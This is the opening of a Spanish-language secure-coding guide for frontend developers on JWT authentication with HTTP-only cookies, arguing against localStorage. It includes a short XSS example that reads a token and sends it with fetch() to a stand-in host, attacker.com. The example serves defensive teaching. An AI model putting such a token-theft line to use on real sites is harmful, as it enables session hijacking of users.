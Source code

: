 # 🔐 Autenticación JWT con HTTP-only Cookies - Guía para Frontend

## 📋 Tabla de Contenidos
- [Diferencias: localStorage vs HTTP-only Cookies](#diferencias-localstorage-vs-http-only-cookies)
- [Configuración del Backend](#configuración-del-backend)
- [Implementación en Frontend](#implementación-en-frontend)
- [Ejemplos Completos](#ejemplos-completos)
- [Manejo de Errores](#manejo-de-errores)
- [Seguridad](#seguridad)
- [Troubleshooting](#troubleshooting)

---

## ⚠️ ¿Por qué NO usar localStorage?

### Vulnerabilidades de localStorage

```javascript
// ❌ INSEGURO - NO HACER ESTO
localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...');

// ❌ VULNERABLE a ataques XSS (Cross-Site Scripting)
// Si un atacante inyecta JavaScript malicioso en tu app:
const stolenToken = localStorage.getItem('token');
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: stolenToken })
});
```

**Problemas:**
- ✗ Accesible desde JavaScript → vulnerable a XSS
- ✗ Se envía en cada request manualmente → errores humanos
- ✗ No tiene fecha de expiración automática
- ✗ Visible en DevTools → fácil de copiar/robar

---

## ✅ HTTP-only Cookies: La Solución Segura

### ¿Qué son las HTTP-only Cookies?

Las **HTTP-only cookies** son cookies que:
- ✓ **NO son accesibles desde JavaScript** (`document.cookie` no las muestra)
- ✓ Se envían **automáticamente** en cada request al mismo dominio
- ✓ Solo el navegador puede leerlas/escribirlas
- ✓ Protegen contra XSS (Cross-Site Scripting)

### Configuración en el Backend

